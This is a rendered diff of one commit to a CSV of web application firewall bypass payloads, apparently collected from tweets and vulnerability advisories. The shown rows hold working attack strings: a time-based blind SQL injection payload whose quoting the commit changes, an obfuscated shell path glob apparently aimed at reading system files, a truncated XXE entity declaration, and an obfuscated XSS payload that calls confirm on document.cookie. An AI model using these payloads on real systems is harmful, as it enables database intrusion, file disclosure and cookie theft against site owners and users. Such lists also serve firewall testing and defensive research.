

Before and after one commit to waf-bypass-maker/waf-community-bypasses, a CSV file: payloads.twitter.csv, drawn as a sheet; only a part is shown, gaps mark what is left out.

Commit message:
Update payloads.twitter.csv

```diff
--- a/payloads.twitter.csv
+++ b/payloads.twitter.csv
@@ -460,3 +460,3 @@ https://twitter.com/0x0SojalSec/status/1653830922679250944,/???/???/c?t$IFS/???/
 https://twitter.com/gdprAI/status/1653160069109026816,"<!DOCTYPE foo [<!ENTITY % a ""&#x3c;&#x21; ... omitted ...", xxe
-https://wpscan.com/vulnerability/c5e395f8-257e-49eb-afbd-9c1e26045373,'{"sku":"a\" AND (SELECT 42 FROM (SELECT(SLEEP(5)))wlHd)-- pOeU"}',sqli
+https://wpscan.com/vulnerability/c5e395f8-257e-49eb-afbd-9c1e26045373,{""sku"":""a\"" AND (SELECT 42 FROM (SELECT(SLEEP(5)))wlHd)-- pOeU""},sqli
 https://twitter.com/ShawarkOFFICIAL/status/1656050953660043265,"><BODy onbeforescriptexecute="x1='cookie';c=')';b='a';location='jav'+b+'script:con'+'fir\u006d('+'document'+'.'+x1+c">,xss
```
